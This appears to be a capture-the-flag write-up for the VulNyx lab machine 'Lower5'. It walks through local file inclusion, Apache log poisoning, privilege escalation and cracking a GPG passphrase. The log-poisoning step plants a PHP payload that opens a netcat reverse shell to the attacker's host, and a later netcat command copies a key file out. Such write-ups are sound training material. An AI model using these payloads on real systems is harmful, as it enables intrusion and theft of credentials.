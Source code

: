 ```yaml
---
title: VulNyx - Lower5 Writeup
date: 2025-05-17 20:51:00 +0530
categories: [Vulnyx, Lower5]
tags: [vulnyx]
---
```


This write-up covers the solution to the low-difficulty machine "Lower5" released on [VulNyx](https://vulnyx.com/). The machine features a Local File Inclusion (LFI) vulnerability paired with log poisoning, ultimately leading to privilege escalation.

## Nmap

```bash

labs/vulnyx/lower5 
❯ nmap -sC -sV -oA lower5 lower.vl 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-22 02:57 EDT
Nmap scan report for lower.vl (192.168.25.5)
Host is up (0.000089s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: vTeam a Corporate Multipurpose Free Bootstrap Responsive template
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:41:41:2B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
                                                                                                       
```

### Port 80 - HTTP
The site hosted on port 80 uses a script named `page.php`, which includes files based on the `inc` parameter (e.g., `http://192.168.25.10/page.php?inc=about.html`). I suspected a Local File Inclusion (LFI) vulnerability and decided to test it using wfuzz. 

## Local File Inclusion (LFI)

LFI Wordlist Used: [https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt)

```bash
labs/vulnyx/lower5 
❯ wfuzz -c -w file_inclusion_linux.txt -u "http://lower.vl/page.php?inc=FUZZ" --hh=52
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://lower.vl/page.php?inc=FUZZ
Total requests: 2299

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001815:   200        1862 L   22587 W    256035 Ch   "/var/log/apache2/access.log"                                                                                                                                              
000001016:   200        22 L     26 W       1051 Ch     "/etc/passwd"                                                                                                                                                              

Total time: 1.083493
Processed Requests: 2299
Filtered Requests: 2297
Requests/sec.: 2121.839
                                                                                                                                                                                                                                       
```

### /etc/passwd

```bash
labs/vulnyx/lower5 
❯ curl "http://lower.vl//page.php?inc=/etc/passwd"                            
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
low:x:1000:1000:low:/home/low:/bin/bash
                                       
```

### /var/log/apache2/access.log
Since Apache logs are accessible, making log poisoning a viable path.

```bash
labs/vulnyx/lower5 
❯ curl -s "http://lower.vl//page.php?inc=/var/log/apache2/access.log" | head
zsh: no such file or directory: labs/vulnyx/lower5

192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET / HTTP/1.0" 200 11884 "-" "-"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "OPTIONS / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "POST / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /.git/HEAD HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /nmaplowercheck1745305071 HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "OPTIONS / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /robots.txt HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "POST /sdk HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"

```

## Log Poisoning

### Reverse Shell Injection via User-Agent

We poison the log by sending a malicious `User-Agent` header containing a PHP reverse shell:

```bash
labs/vulnyx/lower5 
❯ curl -s -H "User-Agent: <?php system('busybox nc 192.168.25.4 1234 -e /bin/sh'); ?>" "http://lower.vl/"
```

```bash
labs/vulnyx/lower5 
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.5] 37424
pwd
/var/www/html
whoami
www-data
```
Shell obtained as `www-data`.

## Privilege Escalation

### User flag

```bash
www-data@lower5:/var/www/html$ sudo -l
Matching Defaults entries for www-data on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on lower5:
    (low) NOPASSWD: /usr/bin/bash
```

```bash
www-data@lower5:/var/www/html$ sudo -u low bash 
low@lower5:/var/www/html$ pwd
/var/www/html
low@lower5:/var/www/html$ cd ~
low@lower5:~$ ls
root.gpg  user.txt
low@lower5:~$ cat user.txt 
30a****************************
```

### Root flag
```bash
low@lower5:~$ sudo -l
Matching Defaults entries for low on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User low may run the following commands on lower5:
    (root) NOPASSWD: /usr/bin/pass

```
```bash
low@lower5:/var/www/html$ sudo -u root /usr/bin/pass
Password Store
`-- root
    `-- password
```

Running the `pass` command prompts for a GPG passphrase:

```bash
low@lower5:~$ sudo -u root pass root/password
┌───────────────────────────────────────────────────────────────┐
│ Please enter the passphrase to unlock the OpenPGP secret key: │
│ "administrator (password) <admin@lower5.nyx>"                 │
│ 1024-bit RSA key, ID E70EBB1C2CFFB642,                        │
│ created 2025-04-09 (main key ID 9AD17885DA2449A1).            │
│                                                               │
│                                                               │
│ Passphrase: _________________________________________________ │
│                                                               │
│         <OK>                                   <Cancel>       │
└───────────────────────────────────────────────────────────────┘
```

```bash
labs/vulnyx/lower5 
❯ nc -lp 1212 > root.gpg
```

```bash
low@lower5:~$ nc -w3 192.168.25.4 1212 < root.gpg 
```

#### Cracking the GPG passphrase ([John The Ripper](https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html))


```bash
labs/vulnyx/lower5 
❯ gpg2john root.gpg > root_hash

File root.gpg                        
```

```bash
labs/vulnyx/lower5 took 5s 
❯ sudo john --wordlist=rockyou.txt root_hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (administrator)     
1g 0:00:02:11 DONE (2025-05-17 07:49) 0.007629g/s 26.74p/s 26.74c/s 26.74C/s Password1..wateva
Use the "--show" option to display all of the cracked passwords reliably
Session completed.            
```
Recovered password: `Password1`

```bash
low@lower5:~$ sudo -u root /usr/bin/pass root/password
r00tP@zzW0rD123
```

```bash
root@lower5:~# cat root.txt 
008****************************
```